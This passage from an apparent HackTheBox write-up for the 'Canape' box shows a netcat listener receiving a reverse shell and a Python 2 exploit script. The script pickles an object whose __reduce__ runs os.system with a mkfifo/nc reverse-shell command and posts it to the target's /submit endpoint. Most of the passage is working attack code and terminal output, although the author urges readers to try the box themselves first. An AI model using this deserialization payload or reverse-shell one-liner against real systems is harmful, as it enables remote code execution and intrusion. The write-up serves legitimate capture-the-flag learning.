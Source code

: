    
        root@kali# nc -lnvp 4444
    listening on [any] 4444 ...
    connect to [10.10.15.48] from (UNKNOWN) [10.10.10.70] 58290
    /bin/sh: 0: can't access tty; job control turned off
    $ python -c 'import pty;pty.spawn("bash")'
    www-data@canape:/$
    

### Script Source

#### Note

I’ve got the source for my script here, but I’m going to plead with you not to
use it. Getting this exploit working was one of the most fun I’ve had on
HackTheBox. I’m going to add a section at the end on my approach to this
problem. If you haven’t done this box, or are stuck here, jump to the end,
read that section, and give it a try before copying and running this script.

#### Code

We’ll use python2 here because the site is running python2, and we want the
pickle output to match.

    
    
    #!/usr/bin/env python
    
    import cPickle
    import os
    import requests
    import sys
    from hashlib import md5
    
    class Exploit(object):
    
        def __init__(self, cmd):
            self.cmd = cmd
    
        def __reduce__(self):
            return (os.system, ('echo moe && ' + self.cmd,))
    
    def main():
        if len(sys.argv) != 3:
            print("{} [ip] [port]".format(sys.argv[0]))
            sys.exit()
    
        ip = sys.argv[1]
        port = sys.argv[2]
        cmd = "rm /tmp/0xdf; mkfifo /tmp/0xdf; cat /tmp/0xdf | /bin/sh -i 2>&1 | nc {} {} > /tmp/0xdf".format(ip, port)
        exploit = cPickle.dumps(Exploit(cmd))
    
        char = exploit[:-1]
        quote = exploit[-1:]
        id_ = md5(char+quote).hexdigest()
    
        print("[*] Filename will be: {}".format(id_))
        print("[*] Exploit:\n{}".format(exploit))
        print("[+] Sending exploit...")
        r = requests.post('http://10.10.10.70/submit', data = {'character': char, 'quote': quote})
        if r.status_code != 200:
            print("[-] Error submitting exploit to /submit")
            sys.exit()
        print("[+] Exploit successfully submitted")
    